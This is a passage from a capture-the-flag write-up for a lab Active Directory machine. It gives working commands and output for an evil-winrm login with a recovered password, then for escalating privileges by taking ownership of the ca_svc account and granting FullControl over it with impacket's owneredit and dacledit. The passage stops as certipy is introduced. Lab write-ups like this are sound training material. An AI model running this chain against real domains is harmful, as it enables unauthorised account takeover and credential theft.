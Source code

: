     - `-u` Specifies the user
    - `-p` Specifies the password
####
That credential work for **ryan** user, so here we will use the **evil-winrm** tool.
####
```bash
evil-winrm -i 10.10.11.51 -u ryan -p WqSZAF6CysDQbGb3
```
####
- ###### Evil-winrm Param
    - `-i` Specify the ip target host 
    - `-u` Specify the user 
    - `-p` Specify the password 
####
####
####
## Second exploit phase (Privilage Escalation)
### WriteOwner
If we execute a **bloodhound-python** in our machine aginst the target machine to discover a potential vector of explotation, we are able to see that the user `ryan` have *(WriteOwner)* permissions over `ca_svc`. So the **impacket** suite have 2 tools that will help us to exploit this aproach because the `ca_svc` user is the other unique user, so the privilage escalation is for here.
####
First, we need to change the **ownership** `ca_svc` account. The user that we posses credentials to gain access in the target machine is **ryan** and he have that permissions so we will try to be the owner of that account.
####
```ruby
python3 impacket-owneredit -action write -new-owner ryan -target ca_svc sequel.htb/ryan:WqSZAF6CysDQbGb3
    Result -> 
        [*] Current owner information below
        [*] - SID: S-1-5-21-548670397-972687484-3496335370-512
        [*] - sAMAccountName: Domain Admins
        [*] - distinguishedName: CN=Domain Admins,CN=Users,DC=sequel,DC=htb
        [*] OwnerSid modified successfully!
```
####
- ###### Impacket-owneredir Param
    - `-action` Specifies the action to perform. Valid options: *(Read, Write, Restore)*
    - `-new-owner` Specifies the new owner of the target object.
    - `-target` Specifies the target object to modify
####
Now we need to specify what level of control or permissions, impacket have a tool based on DACL *(Discretionary Access Control List)*. If we will have a **full control** in this account when we spawn, we will spawned like a super user.
####
```ruby
python3 impacket-dacledit -action write -rights FullControl -principal ryan -target ca_svc sequel.htb/ryan:WqSZAF6CysDQbGb3
    Result -> 
        [*] DACL backed up to dacledit-20250506-141031.bak
        [*] DACL modified successfully!
```
####
- ###### Impacket-dacleedit Param
    - `-rights` Specify the rights or permissions that the new user will have
    - `-principal` Sepecify the user
####
We already achieve to take control over the **ca_svc** user. Now we need to get the credentials. In this case the **certipy** tool take place for linux and **certify** for windows, the form to install the first tool is: `pip install certipy --break-system-packages`, the other tool you can download it in github: [Certify-Exe-File](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries).